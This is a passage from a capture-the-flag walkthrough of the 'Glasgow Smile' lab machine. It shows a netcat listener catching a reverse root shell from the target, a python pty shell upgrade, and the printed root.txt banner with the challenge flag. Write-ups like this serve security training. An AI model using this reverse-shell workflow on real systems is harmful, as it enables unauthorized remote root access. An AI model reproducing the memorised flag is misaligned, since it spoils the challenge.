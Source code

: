 We Then set up a netcat listener and wait a moment to receive our root shell.

```bash
root@kali:~$ nc -vlnp 1337
listening on [any] 1337 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.165] 40602
python -c "import pty; pty.spawn('/bin/bash')"
root@glasgowsmile:~# ls
ls
root.txt  whoami
root@glasgowsmile:~# cat root.txt
cat root.txt
  ▄████ ██▓   ▄▄▄       ██████  ▄████ ▒█████  █     █░     ██████ ███▄ ▄███▓██▓██▓   ▓█████ 
 ██▒ ▀█▓██▒  ▒████▄   ▒██    ▒ ██▒ ▀█▒██▒  ██▓█░ █ ░█░   ▒██    ▒▓██▒▀█▀ ██▓██▓██▒   ▓█   ▀ 
▒██░▄▄▄▒██░  ▒██  ▀█▄ ░ ▓██▄  ▒██░▄▄▄▒██░  ██▒█░ █ ░█    ░ ▓██▄  ▓██    ▓██▒██▒██░   ▒███   
░▓█  ██▒██░  ░██▄▄▄▄██  ▒   ██░▓█  ██▒██   ██░█░ █ ░█      ▒   ██▒██    ▒██░██▒██░   ▒▓█  ▄ 
░▒▓███▀░██████▓█   ▓██▒██████▒░▒▓███▀░ ████▓▒░░██▒██▓    ▒██████▒▒██▒   ░██░██░██████░▒████▒
 ░▒   ▒░ ▒░▓  ▒▒   ▓▒█▒ ▒▓▒ ▒ ░░▒   ▒░ ▒░▒░▒░░ ▓░▒ ▒     ▒ ▒▓▒ ▒ ░ ▒░   ░  ░▓ ░ ▒░▓  ░░ ▒░ ░
  ░   ░░ ░ ▒  ░▒   ▒▒ ░ ░▒  ░ ░ ░   ░  ░ ▒ ▒░  ▒ ░ ░     ░ ░▒  ░ ░  ░      ░▒ ░ ░ ▒  ░░ ░  ░
░ ░   ░  ░ ░   ░   ▒  ░  ░  ░ ░ ░   ░░ ░ ░ ▒   ░   ░     ░  ░  ░ ░      ░   ▒ ░ ░ ░     ░   
      ░    ░  ░    ░  ░     ░       ░    ░ ░     ░             ░        ░   ░     ░  ░  ░  ░



Congratulations!

You've got the Glasgow Smile!

JKR{68028b11a1b7d56c521a90fc18252995}


Credits by

mindsflee

```

